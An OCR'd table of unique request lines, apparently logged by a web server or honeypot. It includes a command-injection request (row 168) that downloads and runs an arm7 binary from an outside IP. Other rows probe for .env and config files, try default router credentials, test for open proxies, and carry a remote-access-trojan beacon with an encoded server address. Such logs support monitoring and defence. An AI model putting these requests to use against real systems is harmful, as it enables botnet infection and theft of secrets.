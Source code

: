 | 166 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x031\xF1\xF0\x14\x1C\xA9G\xFA\x83\x9C\x05\xAC^\xEE\x9C\xFA\xB6u\xDE\xDBe/0n\xDA5D\xD4\xE9\x12\xAAj\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                     |
| 167 |                     1 | \x00\x0E8\xC846\x16\x8E\xF1\x8D\x0E\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                      |
| 168 |                     1 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F31.57.102.67%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                    |
| 169 |                     1 | PRI * HTTP/2.0                                                                                                                                                                                                                                                                                                                                                               |
| 170 |                     1 | GET /blog/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 171 |                     1 | GET /httpd.conf HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
| 172 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xD4\x0Cx\x96\xD4\xD5\xFE9\x1B\x0B\xA5H=\xA3\xCA\x15\x07\xD0\xD9\x0F\xB4\x08\x99\xFC\x1DD\xA5\x82\xA6\x89\xD9+\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                       |
| 173 |                     1 | 145.ll|'|'|SGFjS2VkX0Q0OTkwNjI3|'|'|WIN-JNAPIER0859|'|'|JNapier|'|'|19-02-01|'|'||'|'|Win 7 Professional SP1 x64|'|'|No|'|'|0.7d|'|'|..|'|'|AA==|'|'|112.inf|'|'|SGFjS2VkDQoxOTIuMTY4LjkyLjIyMjo1NTUyDQpEZXNrdG9wDQpjbGllbnRhLmV4ZQ0KRmFsc2UNCkZhbHNlDQpUcnVlDQpGYWxzZQ==12.act|'|'|AA==                                                                                     |
| 174 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03Y\x0B\xC8V@\x03!.\x87\xB5\xB7qT\xA0@\xAD\xC1\x85\xD1\x84\x17;d\xE2Sqs\xF8\xAE\xC2>\x93\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                               |
| 175 |                     1 | GET /boaform/admin/formLogin?username=user&psd=user HTTP/1.0                                                                                                                                                                                                                                                                                                                 |
| 176 |                     1 | \x04\x01\x00P\x00\x00\x00\x01\x00example.com\x00                                                                                                                                                                                                                                                                                                                             |
| 177 |                     1 | \x05\x01\x00                                                                                                                                                                                                                                                                                                                                                                 |
| 178 |                     1 | CONNECT example.com:80 HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
| 179 |                     1 | GET /Production/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                |
| 180 |                     1 | GET /lib/config/auth.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                             |